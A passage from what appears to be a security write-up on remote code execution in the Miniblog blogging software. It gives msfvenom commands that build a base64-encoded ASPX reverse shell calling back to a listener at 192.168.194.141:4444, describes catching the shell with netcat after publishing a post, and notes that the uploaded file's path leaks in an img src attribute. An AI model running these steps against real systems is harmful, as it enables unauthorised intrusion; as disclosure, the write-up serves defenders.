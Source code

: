 In the above screenshot, I generated the base64 data by creating an ASPX shell using `msfvenom` and encoding with `base64`:

```shell_session
$ msfvenom -p windows/x64/shell_reverse_tcp EXITFUNC=thread -f aspx LHOST=192.168.194.141 LPORT=4444 -o shell_no_encoding.aspx
$ base64 -w0 shell_no_encoding.aspx > shell.aspx
```

With netcat listening for incoming connections on port 4444, publishing this post will instantly return a shell once the browser redirects to the new post:

![](/assets/images/2019-03-16-miniblog-remote-code-execution/shell.png)

When examining the post that the browser redirected to after clicking the `Save` button, we can see that the path to the ASPX file is disclosed in the `src` attribute of the `img` element:
